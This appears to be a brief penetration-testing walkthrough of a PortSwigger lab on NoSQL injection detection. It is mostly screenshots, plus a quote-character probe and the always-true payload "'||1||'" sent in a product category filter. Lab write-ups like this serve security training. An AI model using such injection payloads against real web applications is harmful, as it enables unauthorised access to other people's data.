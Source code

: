 Welcome My friends , Today we will attack this [room](https://portswigger.net/web-security/learning-paths/nosql-injection/nosql-syntax-injection/nosql-injection/lab-nosql-injection-detection#)


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1b68df4a-33d1-43c6-8f68-4ce8b22ae218">
</p>

great we vuln paramater 

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/c02a3344-c448-4109-8325-77f99e0a5188)

Let's go add ```'``` in url to test this paramater

```
filter?category=Corporate+gifts'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/9ea71f46-9d59-4e89-874f-affac709af45)

Ok We try this payload:

```
filter?category=Corporate+gifts'||1||'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/80865944-7ed7-40e5-b9dd-0531750c88ce)
